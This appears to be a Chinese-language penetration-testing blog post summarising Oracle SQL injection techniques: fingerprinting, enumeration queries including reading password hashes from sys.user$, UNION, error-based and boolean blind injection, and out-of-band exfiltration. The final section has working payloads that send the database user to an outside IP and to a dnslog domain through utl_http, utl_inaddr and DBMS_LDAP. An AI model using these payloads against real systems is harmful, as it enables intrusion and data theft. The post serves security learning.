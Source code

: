 ```yaml
---
date: 2019-01-04 20:23:35
title: SQL注入 tips(Oracle)
description: 前几天渗透测试时遇到了Oracle的注入，这里简单总结一下Oracle中的SQL注入常见的利用手法：联合查询注入、报错型注入、布尔型注入、无返回值的盲注
categories:
  - Pentest
tags:
  - SQL注入
  - oracle
---
```


### 0x00 判断数据库类型
* Oracle有一些自带的表：dual、user_tables
    * ```id=45 and (select count(*) from user_tables)>0--```
    * ```id=45 and (select count(*) from dual)>0--```

* 利用自带的一些函数：譬如utl_http.request 这些
* 利用Oracle的字符连接符：CHR(97)||CHR(110)||CHR(100)||CHR(32)||CHR(49)||CHR(61)||CHR(49)

### 0x01 基本信息获取
* 查看sid
```
select instance_name from v$instance;
```

* 查看数据库版本：
```
select banner from v$version where rownum=1;
select banner from sys.v_$version where rownum=1;
```

* 查看用户：
```
select user from dual; --当前用户
select username from user_users; --当前用户
select username from all_users; --查看所有用户
select username from dba_users; --查看所有用户(需要有权限)
```

* 查看当前用户角色：
```
select role from session_roles;
```

* 查看数据库用户名和密码：
```
select name, password, astatus from sys.user$; --需要权限
```

* 通过注入获取数据
    ```
    --列database
    select global_name from global_name;
    select sys.database_name from dual;
    select name from v$database;
    select instance_name from v$instance;
    --列owner
    select distinct owner from all_tables;
    --列owner的tables
    select table_name from all_tables where owner='UTEST';
    --列tables的columns
    select column_name from all_tab_columns where table_name='TUSER';
    select column_name from all_tab_cols where table_name='TUSER';


    --列tablespace
    select tablespace_name from user_tablespaces;
    --列tablespace的tables
    select table_name from user_tables where tablespace_name='DB_TEST_DATA';
    --列tables的columns
    select column_name from user_tab_columns where table_name='TUSER';
    ```

### 0x02 UNION query注入

* 存在注入
![70](/img/post/20190103-162239.png)

* 判断列数
![40](/img/post/20190103-162620.png)
![80](/img/post/20190103-162720.png)

* 尝试union select
![60](/img/post/20190103-163005.png)
依次判断字段类型(下图判断出第二个字段是字符型)
![80](/img/post/20190103-163324.png)
![50](/img/post/20190103-163228.png)

* 得到表名  
得到表的个数
![75](/img/post/20190103-164019.png)
得到第一个表的表名
![75](/img/post/20190103-163610.png)
得到第二个表的表名
![75](/img/post/20190103-164519.png)

* 得到第一个表的字段
![80](/img/post/20190103-165302.png)

* 得到第一个表的数据
![80](/img/post/20190103-170336.png)

### 0x03 error-based注入
* ctxsys.drithsx.sn
![60](/img/post/20190104-160714.png)

* dbms_xdb_version.checkin
![80](/img/post/20190104-161325.png)

* dbms_xdb_version.makeversioned
![85](/img/post/20190104-161521.png)

* dbms_xdb_version.uncheckout
![85](/img/post/20190104-161727.png)

* dbms_utility.sqlid_to_sqlhash
![85](/img/post/20190104-161838.png)

* utl_inaddr.get_host_name(在11g以后需要是超级用户或已授予网络访问权限的用户才能使用)
![](/img/post/20190104-203238.png)

### 0x04 boolean-based blind注入
* case...when...
![65](/img/post/Xnip2019-08-12_11-12-32.png)
![65](/img/post/Xnip2019-08-12_11-13-46.png)

* decode

decode(条件，值1，值1结果，值2，值2结果，。。。值n，值n结果，默认值)

条件和那个值相等就返回那个值的结果
![65](/img/post/20190104-165737.png)
![65](/img/post/20190104-165817.png)

* instr

instr(字符串，子串)

从一个字符串中查找指定子串的位置，这里一直将位置置为1
![55](/img/post/20190104-201134.png)
![55](/img/post/20190104-201157.png)
![55](/img/post/20190104-201216.png)

### 0x05 无回显注入
* web服务接收结果
```
select * from utest.msg where id=2 and 1=utl_http.request('http://59.108.35.198:8888/'||(select user from dual));
```

* dns服务接收结果
```
select * from utest.msg where id=2 and (select utl_inaddr.get_host_address((select user from dual)||'.dnslog.wyb0.com') from dual) is not null;
```

* dns服务接收结果
```
select * from utest.msg where id=2 and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.dnslog.wyb0.com',81) from dual) is not null;
```

<br>
#### Reference(侵删)：
* [https://www.freebuf.com/articles/web/5411.html](https://www.freebuf.com/articles/web/5411.html?_blank)
* [https://www.iswin.org/2015/06/13/hack-oracle/](https://www.iswin.org/2015/06/13/hack-oracle/?_blank)
* [https://www.freebuf.com/column/146464.html](https://www.freebuf.com/column/146464.html?_blank)

